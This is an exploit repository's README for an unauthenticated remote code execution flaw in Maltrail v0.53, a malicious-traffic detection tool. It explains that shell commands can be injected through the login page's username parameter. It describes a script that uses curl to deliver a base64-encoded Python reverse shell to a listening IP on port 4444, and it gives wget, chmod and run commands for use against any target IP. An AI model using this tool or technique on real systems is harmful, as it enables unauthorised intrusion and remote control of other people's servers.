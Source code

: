 # Maltrail v0.53 RCE

> [!WARNING]  
> This is an educational project, I am not responsible for any use

# Exploit

In Maltrail's web service the username parameter of the login page does not sanitise, which allows an attacker to inject commands without being authenticated and from a remote machine.

In a shell we can separate command with a `;` and what comes before the `;` will be executed as one command and what comes after will be executed as another command, if you inject into the `username` parameter a `;` + a `payload` the `payload` will be executed because the source code uses `subprocess.check_output` to check the value of the `username` parameter.

# What is it and how does it work?

Maltrail is a malicious traffic detection system [to learn more visit the official website](https://github.com/stamparm/maltrail)

This bash script sends a request using `curl` to the server that hosts maltrail. That request contains the data from -> `username=;PAYLOAD` which where it says `PAYLOAD` will execute a reverse shell using base64 encoded python on port 4444.

# Usage

```zsh
wget https://raw.githubusercontent.com/Rubioo02/Maltrail-v0.53-RCE/main/exploit.sh
chmod +x exploit.sh
./exploit.sh -t <TARGET_IP> -i <LISTENING_IP>
```

# BLOG
<https://rubioo02.github.io/>
